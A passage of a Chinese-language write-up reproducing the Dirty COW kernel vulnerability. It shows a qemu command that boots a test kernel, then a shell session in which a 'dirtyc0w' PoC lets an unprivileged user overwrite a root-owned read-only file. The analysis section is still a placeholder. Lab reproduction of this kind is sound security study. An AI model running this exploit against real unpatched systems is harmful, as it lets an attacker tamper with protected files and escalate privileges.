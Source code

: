 上一步已经得到了：

- 带调试信息的Linux Kernel：bzImage
- 包含了PoC的文件系统initramfs镜像：rootfs.img

我们使用qemu将其启动：

```sh
qemu-system-x86_64 \
  -kernel bzImage \
  -initrd rootfs.img \
  -append "console=ttyS0" \
  -nographic
```

进入qemu guest后：

```sh
~ $ id
uid=1000 gid=1000 groups=1000
~ $ ls -l /bin/dirtyc0w
-rwxrwxr-x    1 1000     1000       1023952 Aug 18 08:00 /bin/dirtyc0w
~ $ su
/ # echo nothing > foo
/ # chmod 0404 foo
/ # ls -lah foo
-r-----r--    1 root     root          16 Aug 18 08:48 foo
/ # ^D
~ $ cat foo
nothing
~ $ dirtyc0w foo hacked!!!
mmap 7fd5597c8000
^C
~ $ cat foo
hacked!!!
```

至此漏洞成功复现！🥳

# 漏洞分析

Waiting 

https://xz.aliyun.com/t/7561



